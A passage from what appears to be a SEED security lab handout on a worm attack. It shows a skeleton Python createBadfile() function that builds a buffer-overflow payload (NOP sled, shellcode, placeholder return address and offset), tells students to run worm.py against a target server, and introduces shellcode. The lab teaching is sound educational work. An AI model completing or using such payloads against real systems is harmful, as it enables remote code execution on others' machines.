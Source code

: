 For the sake of simplicity, we let the server print out some of its 
internal parameters (see lines marked by ). Students 
are allowed to use these parameters when constructing their attacks. 
In particular, they need to modify Lines~\lineone and~\linetwo
inside \texttt{createBadfile()}.  

\begin{lstlisting}[language=Python]
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   ret    = 0x00         (*@\lineone@*)  
   offset = 0x00         (*@\linetwo@*) 

   content[offset:offset + 4] = (ret).to_bytes(L,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
\end{lstlisting}
 

To test the attack, simply run the attack program \texttt{worm.py}.
It will generate the badfile, and then send its content to
the target server. If you see a smiley face printed out on the 
target machine, that means that you are attack has succeeded, and your 
injected code has been executed. 


\begin{lstlisting}
$ chmod +x worm.py
$ ./worm.py
\end{lstlisting}


\paragraph{Lab task.}
Please modify the provided skeleton code \texttt{worm.py}, launch the 
attack against the first target, and demonstrate that your attack is 
successful. 
 

\subsection{The Shellcode} 

The malicious code that we would like to run on the target 
server is called shellcode, which is typically written
using the assembly language and then converted to the 
binary machine code. 
In this lab, we only provide the binary version of a generic shellcode,
without explaining how it works, because it is non-trivial.
If students are interested in how exactly shellcode works and
want to write a shellcode from scratch, they
can learn that from a separate SEED lab called \textit{Shellcode Lab}.

